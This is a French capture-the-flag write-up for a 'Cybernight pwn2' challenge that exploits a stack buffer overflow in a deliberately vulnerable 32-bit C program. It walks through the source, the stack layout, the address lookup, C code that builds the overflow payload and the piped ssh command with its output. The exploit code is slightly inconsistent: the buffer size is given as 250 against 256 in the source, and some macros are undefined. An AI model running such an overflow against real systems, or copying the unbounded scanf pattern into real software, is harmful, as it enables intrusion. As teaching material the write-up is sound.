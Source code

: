﻿# Challenge pwn2 Cybernight writeup

## Description du challenge
Comme dans le challenge #1, un identifiant pour se connecter à une machine nous est fourni:
```bash
ssh ctf@10.242.0.1 -p 2223
passwd: ***
```
Et comme dans le challenge 1, on retrouve:
- *control*: ELF Executable 32bit, stripped
- *control_v2.c*: Code source de control
	-  *ctf*: 
- *flag.txt*: Fichier contenant le flag (obviously), lisible par **root**

## Analyse du code
*control_v2.c*:
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define STRING_LEN 256

void select_action() {
    // User input
    char action[STRING_LEN];

    printf("### ACTION DISPATCHER ###\n");
    scanf("%s", action);

    if (!strcmp(action, "right")) {
        printf("# MOVED RIGHT\n");
    }
    else if (!strcmp(action, "left")) {
        printf("# MOVED LEFT\n");
    }
    else if (!strcmp(action, "up")) {
        printf("# MOVED UP\n");
    }
    else if (!strcmp(action, "down")) {
        printf("# MOVED DOWN\n");
    }
    else {
        printf("# UNRECOGNIZED COMMAND\n\n");
    }
}

// ADMIN section
void admin_panel() {
    printf("Bienvenue dans l'espace ADMIN !");
    setreuid(geteuid(), geteuid());
    system("/bin/bash -c 'cat ./flag.txt'");
}

int main() {
    select_action();
    return 0;
}
```
Le programme **lit un nombre indéfini de character avec scanf** depuis stdin et store la l'entrée dans le buffer *char\* action[**250**]*
On observe une fonction  *admin_panel* qui lit *flag.txt*, mais la fonction n'est pas jamais appelé.
## Exploitation
La fonction *scanf* enregistrant un nombre indéfini de character sera notre le point d'entrée pour exploiter une faille buffer overflow sur le buffer *action*.
Pour récuperer le flag, notre buffer overflow devra rediriger le programme vers la fonction *admin_panel*.

### Comment rediriger l'execution d'un programme depuis la stack ??
Tout d'abord il faut comprendre ce qu'il se passe lorsque l'intruction ``call fnc`` en assembleur est executé.

Lorsqu'une fonction est appelé, ses arguments sont poussés sur la stack dans l'ordre inverse (programme 32bit) ou les arguments sont passés par les registres (programme 64bit).

La valeur de EIP (registre contenant l'adresse de l'instruction à executer, le déroulement du programme) est *push* sur le haut de la stack avant le prélude de la fonction appelé.

Donc la valeur avant EBP (le bas de la stack de la fonction en cours d'execution) est l'adresse à que EIP prendra lorsque la fonction retournera.

Alors si on modifie [EBP + 4] (la stack va des adresses hautes, vers les adresses basse, d'où le *+*), on fera sauter l'execution de notre programme à l'adresse modifié lorsque la fonction sera terminé.
| STACK: | Size in byte |
---------|-------|
| [...] | [...] |
| RETURN ADDR | 4
| EBP (bas de la pile) | 4
| char action[] | 250

Il faut donc écrire l'adresse à laquelle nous voulons rediriger le programme: **action+254**

##  Écriture de l'exploit

Tout comme pour le premier challenge de pwn, je vais écrire un programme en *C* qui écrira notre buffer malvaillant dans un fichier. Il ne restera plus qu'à pipe l'exploit au programme.

### Définition des valeurs
Il faut commencer par savoir à quel adresse sauté, on a pas de soucis à directement la récupérer dans la liste de symbol et de l'hardcoder dans l'exploit car il n'y a pas de randomisation d'adresse.
On récupère l'adresse des symbols avec ``objdump -t ./bin``.
```bash
 faco@archad $ objdump -t ./control | grep admin
08049379 g     F .text  00000059              admin_panel
```
L'adresse de la fonction *admin_panel* est  **0x08049379**.
```c
#define PADDING 250
#define PADDING_CHAR 0x41 // on rempli le padding de 'A'
#define EBP "BB" 				// On aurait pu recouvrir EBP avec n'importe quoi
#define ADDR_LEN 4			// Une addresse en 4B long pour un programme 32bit
#define PAYLOAD "\x79\x93\x04\x08" // ADDR de la fonction admin_panel en little endian
#define TOTAL_LEN 250 + ADDR * 2
```
On construit l'exploit dans un buffer de taille *TOTAL_LEN*

```c
char* buf = (char*)malloc(TOTAL_LEN);
memset(buf, PADDING_CHAR, PADDING);
memcpy(buf+PADDING, EBP, ADDR_LEN);
memcpy(buf+PADDING+ADDR_LEN, PAYLOAD, ADDR_LEN);
```
Puis on écrit *buf* dans un fichier *evil*
```c
  FILE *f = fopen(PATH, "w");
  if (!f) {
    printf("Couldn't write file to %s\n", PATH);
    return -1;
  }
  fwrite(buf, 1, PADDING+PAYLOAD_LEN, f);
  printf("Exploit written to %s\n", PATH);
```

### Exploitation
```bash
$ ssh ctf@10.242.0.1 -p 2223 'bash -c ~/control' < evil
### ACTION DISPATCHER ###
# UNRECOGNIZED COMMAND

{FLAG}
Bienvenue dans l'espace ADMIN !
```
